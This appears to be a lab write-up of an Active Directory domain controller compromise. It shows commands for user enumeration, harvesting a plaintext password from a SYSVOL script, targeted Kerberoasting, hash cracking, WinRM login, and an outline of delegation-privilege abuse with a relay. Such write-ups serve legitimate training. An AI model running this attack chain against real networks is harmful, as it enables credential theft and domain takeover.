




## INFO


```
[*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)

PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```


It is a normal DC , with Publicly Accessible shares.


Get a list of domain users.
```
└─# crackmapexec smb 10.10.109.158 -u guest -p '' --rid-brute
```


## INITIAL ACCESS


In the SYSVOL share , found users.bat file that got creds. of A.Briggs !



```
# cat /delegate.vl/scripts/users.bat
rem @echo off
net use * /delete /y
net use v: \\dc1\development 

if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator P4ssw0rd1#123
```

With Domain User we have a lot of possibilities to attack further.

```
└─# bloodhound-python --username a.briggs --password 'P4ssw0rd1#123' --nameserver 10.10.109.158 --domain delegate.vl --domain-controller DC1.delegate.vl --dns-tcp --collectionmethod all --zip
```




A.Briggs --> GenericWrite Privilege --> N.Thompson who canPSREmote to the DC.


### Generic Write Abuse

```
Generic Write access grants you the ability to write to any non-protected attribute on the target object, including "members" for a group, and "serviceprincipalnames" for a user
```

To abuse , we can use [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) tool !

```
─# python targetedKerberoast.py -d delegate.vl -u a.briggs -p 'P4ssw0rd1#123' --dc-ip 10.10.109.158 --request-user N.Thompson
```





Crack the hash !

```
└─# john --wordlist=/usr/share/wordlists/rockyou.txt n_thompson.hash
```


Winrm Access

```
└─# evil-winrm -i 10.10.109.158 -u n.thompson -p KALEB_2341
```


The User is Delegation Admins with `SeEnableDelegationPrivilege` enabled.





##  [SeEnableDelegationPrivilege](https://harmj4.rssing.com/chan-30881824/article60.html)

Misuse of the **Enable computer and user accounts to be trusted for delegation** user right could allow unauthorized users to impersonate other users on the network.


1 --> If computer$ acc. we good 
	else
			user acc. --> create a new machine acc. / have access to one comp$ at the DC

2 --> add spn --> means set the spn of host/attacker.new.machine [tursted to delegate]

3 --> Set atacker.machine$ dns ip --> attacker ip .

4 --> Trigger the attack and relay the attack !

